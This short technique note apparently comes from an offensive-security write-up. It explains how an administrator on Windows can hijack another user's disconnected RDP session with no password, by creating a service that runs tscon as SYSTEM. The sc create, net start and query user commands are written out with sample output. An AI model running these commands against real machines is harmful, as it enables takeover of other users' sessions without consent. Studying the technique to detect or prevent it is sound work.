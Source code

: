 
Windows keeps tracks of user sessions and allows connection to another session using tscon.exe that happens to run as SYSTEM. Users must have the credentials of the owner of the different session in order to switch RDP sessions. If credentials are not provided, then the user will be presented with a prompt.

With administrative rights, a user can create a service that will run as system and connect one session to another.

```powershell
c:\> query user
USERNAME SESSIONNAME ID STATE IDLE TIME LOGON TIME
donny kerabatsos 1 Disc 27 1/23/2022 5:40 PM
walter sobchak 2 Disc . 1/23/2022 7:46 PM
pwneip rdp-tcp#3 3 Active . 1/23/2022 8:13 PM
c:\> sc create hijackedsession binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#3"
c:\> net start hijackedsession
```